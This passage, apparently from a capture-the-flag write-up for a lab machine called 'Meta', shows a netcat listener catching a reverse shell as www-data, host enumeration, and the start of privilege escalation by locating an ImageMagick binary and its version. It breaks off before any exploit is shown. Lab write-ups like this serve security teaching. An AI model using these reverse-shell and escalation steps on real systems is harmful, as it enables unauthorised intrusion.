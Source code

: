 ```console
└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.140] 48390
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:f3:ff brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.140/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> thomas

Find another directory under the site: ``dev01.artcorp.htb``, the convert_images seems a dir for converting images into different file extensions.

```console
www-data@meta:/var/www/dev01.artcorp.htb$ ls -al
total 20
drwxr-xr-x 4 root root     4096 Oct 18  2021 .
drwxr-xr-x 5 root root     4096 Aug 29  2021 ..
drwxrwxr-x 2 root www-data 4096 Jan  4  2022 convert_images
-rw-r--r-- 1 root www-data  247 Oct 18  2021 index.php
drwxr-xr-x 7 root www-data 4096 Aug 28  2021 metaview
```

Find a local tool `ImageMagick`:

```console
www-data@meta:/var/www/dev01.artcorp.htb$ which convert
/usr/local/bin/convert
www-data@meta:/var/www/dev01.artcorp.htb$ ls -l /usr/local/bin/convert
lrwxrwxrwx 1 root root 6 Aug 29  2021 /usr/local/bin/convert -> magick
www-data@meta:/var/www/dev01.artcorp.htb$ ls -l /usr/local/bin/magick
-rwxr-xr-x 1 root root 40048 Aug 29  2021 /usr/local/bin/magick
www-data@meta:/var/www/dev01.artcorp.htb$ /usr/local/bin/magick --help
Usage: magick tool [ {option} | {image} ... ] {output_image}
Usage: magick [ {option} | {image} ... ] {output_image}
       magick [ {option} | {image} ... ] -script {filename} [ {script_args} ...]
       magick -help | -version | -usage | -list {option}
www-data@meta:/var/www/dev01.artcorp.htb$ /usr/local/bin/magick --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```
